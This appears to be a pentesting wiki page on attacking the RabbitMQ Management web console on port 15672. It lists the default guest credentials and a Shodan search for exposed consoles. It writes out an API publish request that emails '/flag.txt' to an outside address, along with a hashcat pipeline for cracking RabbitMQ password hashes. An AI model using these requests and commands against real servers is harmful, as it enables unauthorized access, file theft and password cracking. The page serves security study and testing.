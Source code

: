 # 15672 - Pentesting RabbitMQ Management



## Basic Information

You can learn more about RabbitMQ in [[5671-5672-pentesting-amqp.md|**5671,5672 - Pentesting AMQP**]].\
In this port you may find the RabbitMQ Management web console if the [[https://www.rabbitmq.com/management.html|management plugin]] is enabled.\
The main page should looks like this:

![[<../images/image (336).png>|]]

## Enumeration

The default credentials are "_**guest**_":"_**guest**_". If they aren't working you may try to [[../generic-hacking/brute-force.md#http-post-form|**brute-force the login**]].

To manually start this module you need to execute:

```
rabbitmq-plugins enable rabbitmq_management
service rabbitmq-server restart
```
```
Once you have correctly authenticated you will see the admin console:

![[<../images/image (441).png>|]]

Also, if you have valid credentials you may find interesting the information of `http://localhost:15672/api/connections`

Note also that it's possible to **publish data inside a queue** using the API of this service with a request like:

```bash
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: 172.32.56.72:15672
Authorization: Basic dGVzdDp0ZXN0
Accept: */*
Content-Type: application/json;charset=UTF-8
Content-Length: 267

{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"zevtnax+ppp@gmail.com\", \"attachments\": [{\"path\": \"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
```
```
## Cracking Hash

```bash
echo <base64 rabbit mq hash> | base64 -d | xxd -pr -c128 | perl -pe 's/^(.{8})(.*)/$2:$1/' > hash.txt
hashcat -m 1420 --hex-salt hash.txt wordlist
```
```
### Shodan

- `port:15672 http`






